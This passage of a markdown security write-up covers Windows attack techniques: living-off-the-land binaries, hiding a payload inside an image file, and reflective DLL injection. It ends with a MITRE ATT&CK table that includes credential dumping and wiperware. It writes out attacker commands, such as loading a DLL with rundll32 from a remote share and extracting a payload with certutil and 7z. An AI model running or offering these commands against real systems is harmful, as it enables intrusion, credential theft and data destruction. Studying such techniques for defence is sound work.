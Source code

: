 ### Living Off the Land Binaries (LOLBins)

LOLBins are trusted Windows binaries commonly abused for stealthy attacks.  
**Example (Print Service Attack):**
```cmd
rundll32.exe \\10.10.X.X\shared\payload.dll,ReflectEntry
```
Attackers use LOLBins like `rundll32.exe`, `regsvr32.exe`, and `powershell.exe` to execute payloads filelessly from network shares.

---

## Advanced Techniques

### Fileless Dropper Embedding

**Goal:** Embed and extract payloads from benign-looking files using only built-in tools.

1. **Embed Payload:**
    ```bash
    copy /b nsfw.jpg + payload.7z nsfw.jpg
    ```
2. **Extract & Decode:**
    ```cmd
    certutil -decode nsfw.jpg dropper.7z
    7z x dropper.7z -oC:\Users\Public\
    ```

This technique bypasses traditional file extension filtering and leverages trusted tools for payload delivery.

### Reflective DLL Injection

Loads a malicious DLL directly in memory, evading disk forensics.

```cmd
rundll32.exe \\10.10.X.X\share\nsfw.dll,ReflectEntry
```
No file is written to disk; execution is performed in-memory.

---

## MITRE ATT&CK Mapping

| Phase                | Technique                               | ID                   | Description                                    |
|----------------------|-----------------------------------------|----------------------|------------------------------------------------|
| Initial Access       | Valid Accounts / Drive-by Compromise    | T1078, T1189         | Compromising print interfaces                  |
| Execution            | DLL Side-Loading / LOLBins              | T1218, T1055.001     | Running DLLs reflectively                      |
| Privilege Escalation | Print Spooler Exploits / Hive ACL Abuse | T1068, T1003.002     | SYSTEM access, SAM hash extraction             |
| Defense Evasion      | Fileless Execution / Obfuscated Files   | T1027, T1202         | Encoded payloads via certutil, mshta, etc.     |
| Credential Access    | LSASS Dumping / SAM Hive Access         | T1003                | Credential dumping                             |
| Lateral Movement     | SMB/Net Share Enumeration               | T1021.002            | Spread via printer shares                      |
| Impact               | Data Destruction / Encryption           | T1485, T1486         | Fileless wiperware via DLL payloads            |

---